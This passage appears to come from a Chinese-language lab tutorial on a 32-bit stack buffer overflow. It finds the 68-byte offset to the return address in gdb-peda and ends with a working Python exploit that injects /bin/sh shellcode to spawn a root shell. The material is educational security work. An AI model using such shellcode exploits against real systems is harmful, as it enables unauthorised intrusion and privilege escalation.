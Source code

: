 ```
   0x804842a <func+13>:	lea    eax,[ebp-0x40]
   0x804842d <func+16>:	mov    DWORD PTR [esp],eax  #准备buf参数
```


其栈分布图为：

![image](http://on44nkxjb.bkt.clouddn.com/18-3-25/44922655.jpg)



溢出攻击的目标位置其实就是func函数执行结束时的返回地址，也就是func函数栈桢起始处EBP的后面一个位置。那么buf到返回地址的存放位置间距就是64+4 ,即68个字符。

也就是说向buf字符数组中放68个以上的字符就会覆盖返回地址了。


测试：向buf中存放72个字符，看运行结果：


```
gdb-peda$ r `python -c 'print "A"*68 + "B"*4'`
Starting program: /home/magc/workspace/sec_experiements99/7_experiment/vuln `python -c 'print "A"*68 + "B"*4'`
```
运行结果：

![image](http://on44nkxjb.bkt.clouddn.com/18-3-25/14918793.jpg)

可以看到EIP的内容变成了4个B字符，所以验证了前面的buf与返回地址之间的间距。并且确认了准确长度和位置，后面就可以精确攻击，在Buf中存放自己的Shellcode代码，将返回地址改为Shellcode的起始地址了。

### 攻击程序


```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import struct
from subprocess import call

# 攻击的目标位置：func函数返回地址存放位置
ret_addr = 0xbffff080

# Shellcode 代码，用于创建一个root权限的Shell
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"


# 转换函数，将数字转换成16进制码

def conv(num):
    return struct.pack("<I",num)
buf = "A"*68
buf += conv(ret_addr)
# shellcode到buf的间距是72字节，故ret_addr的内容就是buf地址再加72字节
buf += scode
buf += "\x90"

print "Calling vulnerable program!!!"
call(["./vuln",buf])
```
